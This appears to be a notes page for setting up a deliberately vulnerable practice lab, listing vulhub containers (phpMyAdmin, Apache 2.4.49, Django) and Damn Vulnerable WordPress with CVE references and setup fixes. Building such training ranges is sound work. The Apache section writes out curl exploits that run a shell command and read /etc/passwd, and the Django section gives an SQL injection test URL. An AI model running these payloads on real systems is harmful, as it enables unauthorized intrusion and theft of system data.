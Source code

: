 1. Hidden dir, password attack, **tcp 8511**: [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613). [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```

2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Authenticated SQLi, **tcp 8513**: [CVE-2019-14234 django SQLi](https://github.com/vulhub/vulhub/tree/master/django/CVE-2019-14234). 
```
Need to switch this over, update docker-compose and the repository.
Vulnerable page: http://104.198.70.155:8513/admin/vuln/collection/?detail__a
PoC: http://104.198.70.155:8513/admin/vuln/collection/?detail__a%27b=123
```

5. WP: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)
